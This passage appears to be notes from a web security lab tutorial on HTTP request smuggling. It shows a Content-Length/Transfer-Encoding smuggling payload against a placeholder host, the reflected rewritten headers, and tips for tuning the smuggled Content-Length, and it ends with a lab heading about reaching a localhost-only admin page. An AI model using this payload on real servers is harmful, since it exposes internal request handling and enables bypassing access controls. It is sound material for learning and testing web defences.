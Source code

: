 Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the email parameter. It will then reflect this value back in the response to the second request: 
```bash
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

> Note:
>
> Since the final request is being rewritten, you don't know how long it will end up. The value in the Content-Length header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest

Once you have revealed how the front-end server is rewriting requests, you can apply the necessary rewrites to your smuggled requests, to ensure they are processed in the intended way by the back-end server

### PRACTITIONER Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting
We need the admin page, but it can only be accessed from localhost
